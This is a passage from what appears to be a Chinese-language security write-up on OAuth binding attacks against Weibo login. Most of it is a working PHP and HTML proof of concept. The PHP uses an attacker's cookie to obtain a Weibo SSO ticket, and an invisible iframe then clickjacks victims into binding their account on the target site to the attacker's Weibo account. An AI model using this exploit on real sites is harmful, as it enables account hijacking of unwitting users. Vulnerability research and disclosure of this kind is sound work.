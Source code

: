 没有state参数验证的，那么你可以直接以此作为绑定链接，**覆盖场景1中PoC里面的这个链接**:`https://gh0st.cn/oauth/weibo/redirect`

好了，说了那么多跟场景2没用的话，切入主题来说说场景2的情况到底该如何完成攻击？

很简单我们可以使用点击劫持来完成攻击，如下动态的PoC：

```php
<?php
//get weibo login token
$curl = curl_init();
$cookie = "你微博的Cookie";
curl_setopt($curl, CURLOPT_URL, 'http://login.sina.com.cn/sso/crossdomain.php?action=login');
curl_setopt($curl, CURLOPT_HEADER, 1);
curl_setopt($curl, CURLOPT_COOKIE, $cookie);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);
$data = curl_exec($curl);
curl_close($curl);
//echo $data;
$t = preg_match('/ticket=(.*?)&sso/', $data, $res);
$url = "https://passport.weibo.com/wbsso/login?ticket={$res[1]}&ssosavestate=1556602678";
?>

<html>
<head>
<style type="text/css"> 
.testframe {
	height: 100%;
} 
iframe {
	height: 100%;
	width: 100%;
	border: 0;
	margin: 0;
	padding: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
.btn {
    position: fixed;
    width: 70px;
    height: 22px;
    left: 167px;
    right: 0;
    display:block;
    top: 295px;
} 
</style>
</head>
<body>
<div class="testframe">
    <input type="button" class="btn" value="Click">
	<iframe id="test0" src="<?php echo $url;?>"></iframe>
</div>
<script>
function loadsrc(){
	document.getElementById("test0").src="https://gh0st.cn/usercenter/ubind";
}
setTimeout("loadsrc()",2000);
</script>
```